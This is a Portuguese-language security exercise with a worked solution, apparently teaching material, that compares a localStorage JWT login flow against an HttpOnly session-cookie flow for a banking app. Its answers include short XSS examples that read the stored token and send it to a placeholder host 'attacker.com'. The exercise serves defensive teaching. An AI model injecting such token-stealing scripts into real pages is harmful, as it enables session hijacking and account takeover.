


# Exercício 1: Comparação de Fluxos de Login

## Objetivo

Analisar dois fluxos de autenticação (Fluxo A e Fluxo B) e identificar as diferenças arquiteturais críticas que tornam um seguro e outro vulnerável a ataques.

## Cenário

Uma empresa de fintech está avaliando duas propostas de arquitetura para seu sistema de login. Sua tarefa é analisar ambos os fluxos e determinar qual é mais seguro, justificando sua resposta.

### Fluxo A - Diagrama de Sequência



### Fluxo B - Diagrama de Sequência



## Perguntas - Exercício 1

**Pergunta 1.1:** Observando os dois fluxos, identifique onde o token/sessão é armazenado no lado do cliente em cada caso. Qual das abordagens apresenta maior risco de exposição a ataques XSS? Justifique sua resposta.

**Pergunta 1.2:** Analise como o token/sessão é transmitido em cada fluxo. Qual fluxo está mais suscetível a ataques de interceptação (Man-in-the-Middle)? Explique o porquê.

**Pergunta 1.3:** Compare os mecanismos de validação nos fluxos. Qual abordagem oferece melhor controle para revogação de acesso? Por quê?

**Pergunta 1.4:** Identifique pelo menos 3 vulnerabilidades de segurança presentes no Fluxo A que não existem no Fluxo B.

**Pergunta 1.5:** Se um atacante conseguir injetar código JavaScript malicioso na página do frontend, qual seria o impacto em cada fluxo? Descreva o cenário de ataque.

**Pergunta 1.6:** Qual fluxo você recomendaria para uma aplicação bancária? Justifique sua resposta com base em pelo menos 3 critérios de segurança.

## Passo a Passo para Análise

Para realizar este exercício de forma sistemática, siga os seguintes passos:

**Passo 1:** Identifique o mecanismo de armazenamento
- Analise onde as credenciais de sessão são guardadas no navegador
- Considere a acessibilidade desse armazenamento via JavaScript

**Passo 2:** Avalie o método de transmissão
- Observe como o token/cookie é enviado em cada requisição
- Verifique se há proteções automáticas do navegador

**Passo 3:** Analise o ciclo de vida do token/sessão
- Determine se a validação é stateless ou stateful
- Considere a possibilidade de revogação imediata

**Passo 4:** Considere vetores de ataque
- XSS (Cross-Site Scripting)
- CSRF (Cross-Site Request Forgery)
- MITM (Man-in-the-Middle)
- Token theft (roubo de token)

**Passo 5:** Documente suas conclusões
- Liste as vulnerabilidades encontradas
- Compare os riscos de cada abordagem

## Solução do Exercício 1

### Resposta 1.1 - Armazenamento e Risco XSS

**Fluxo A:** O token JWT é armazenado em `localStorage`, que é acessível via JavaScript. Isso significa que qualquer código JavaScript executado na página pode ler o token.

**Fluxo B:** A sessão é armazenada em um cookie com flags `HttpOnly`, `Secure` e `SameSite=Strict`. O cookie HttpOnly não é acessível via JavaScript.

**Conclusão:** O Fluxo A apresenta maior risco de exposição a ataques XSS. Em caso de XSS bem-sucedido, o atacante pode facilmente roubar o token com código simples como:

```javascript
// Ataque XSS no Fluxo A
const stolenToken = localStorage.getItem('jwt_token');
fetch('https://attacker.com/steal?token=' + stolenToken);
```

No Fluxo B, mesmo com XSS, o atacante não consegue acessar o cookie diretamente, pois a flag HttpOnly impede o acesso via JavaScript.

### Resposta 1.2 - Transmissão e Risco MITM

**Fluxo A:** O token JWT é enviado manualmente no header `Authorization: Bearer <token>` em cada requisição. O frontend é responsável por adicionar o header.

**Fluxo B:** O cookie é enviado automaticamente pelo navegador em cada requisição para o domínio correto, graças às flags `Secure` (só envia via HTTPS) e `SameSite=Strict` (não envia em requisições cross-site).

**Conclusão:** Ambos os fluxos estão suscetíveis a MITM se não usarem HTTPS adequadamente. Porém, o Fluxo B tem melhor proteção devido à flag `Secure`, que garante que o cookie só será transmitido sobre conexões HTTPS. No Fluxo A, a segurança depende inteiramente da implementação do frontend.

**Importante:** O Fluxo A também está mais suscetível a token leakage via:
- Logs do navegador/console
- Headers expostos em ferramentas de desenvolvedor
- Referrer headers em redirecionamentos

### Resposta 1.3 - Validação e Revogação

**Fluxo A:** Validação stateless do JWT. O token contém todas as informações necessárias (claims) e é validado apenas verificando a assinatura. Não há verificação com o servidor de autenticação.

**Fluxo B:** Validação stateful. O backend consulta o Auth Server para verificar se a sessão é válida. O Auth Server mantém o estado da sessão.

**Conclusão:** O Fluxo B oferece melhor controle para revogação de acesso porque:
1. A sessão pode ser invalidada imediatamente no Auth Server
2. Não há janela de vulnerabilidade até o token expirar
3. Suporta revogação seletiva por dispositivo/localização

No Fluxo A, um JWT válido continua válido até sua expiração, mesmo que o usuário tenha "saiído" da aplicação. O atacante pode usar um token roubado até que ele expire naturalmente.

### Resposta 1.4 - Vulnerabilidades do Fluxo A

**1. Armazenamento inseguro (localStorage):**
- Tokens são acessíveis via XSS
- Não há proteção nativa do navegador
- Dados persistem mesmo após logout (se não limpos explicitamente)

**2. Impossibilidade de revogação imediata:**
- JWTs stateless não podem ser revogados sem infraestrutura adicional (blacklist)
- Até a expiração, o token é válido

**3. Falta de rotação de tokens:**
- Não há refresh token para rotação
- Token comprometido permanece válido por todo o período de expiração

**4. Exposição em logs e ferramentas de debug:**
- Tokens em headers podem aparecer em logs de servidor
- Ferramentas de desenvolvedor expõem o token facilmente

**5. Ausência de vinculação de contexto:**
- JWT não está vinculado ao dispositivo ou IP de origem
- Pode ser usado de qualquer localização

### Resposta 1.5 - Cenário de Ataque XSS

**Cenário de ataque no Fluxo A:**

1. Atacante descobre vulnerabilidade XSS no frontend (ex: comentários de produtos sem sanitização)
2. Atacante injeta script malicioso:
```javascript
<script>
  // Rouba o token do localStorage
  const token = localStorage.getItem('jwt_token');
  // Envia para servidor do atacante
  new Image().src = 'https://attacker.com/capture?token=' + token;
</script>
```
3. Qualquer usuário que visualizar a página terá seu token roubado
4. Atacante usa o token para fazer requisições autenticadas como a vítima

**Impacto no Fluxo A:** Crítico - Token completamente comprometido, acesso total à conta.

**Cenário de ataque no Fluxo B:**

1. Mesma vulnerabilidade XSS é explorada
2. Atacante tenta acessar cookies:
```javascript
<script>
  // Tenta acessar cookies
  console.log(document.cookie); // Retorna vazio para cookies HttpOnly
</script>
```
3. O cookie HttpOnly não é acessível via JavaScript

**Impacto no Fluxo B:** Limitado - O atacante pode executar ações em nome do usuário dentro da sessão XSS, mas não pode roubar o cookie para uso posterior. O escopo do ataque fica confinado à sessão do navegador comprometido.

### Resposta 1.6 - Recomendação para Aplicação Bancária

**Recomendação: Fluxo B**

**Justificativa com 3+ critérios:**

| Critério | Fluxo A | Fluxo B | Vencedor |
|----------|---------|---------|----------|
| **Proteção contra XSS** | Vulnerável - token roubável | Protegido - HttpOnly | Fluxo B |
| **Revogação de sessão** | Difícil - stateless | Fácil - stateful | Fluxo B |
| **Conformidade regulatória** | Dificulta auditoria | Facilita rastreamento | Fluxo B |
| **Proteção de dados** | Token exposto | Cookie protegido | Fluxo B |
| **Controle granular** | Limitado ao token | Sessão controlável | Fluxo B |

**Argumentos adicionais:**

1. **Conformidade PCI-DSS/LGPD:** O Fluxo B permite rastreamento detalhado de sessões e revogação imediata, essencial para conformidade regulatória do setor financeiro.

2. **Detecção de anomalias:** O estado de sessão no servidor permite detectar acessos simultâneos de locais diferentes e exigir reautenticação.

3. **Response time a incidentes:** Em caso de suspeita de comprometimento, a sessão pode ser invalidada instantaneamente no Fluxo B.

4. **Auditoria:** O Auth Server no Fluxo B pode registrar todos os eventos de sessão (login, logout, timeout, revogação) para fins de auditoria.
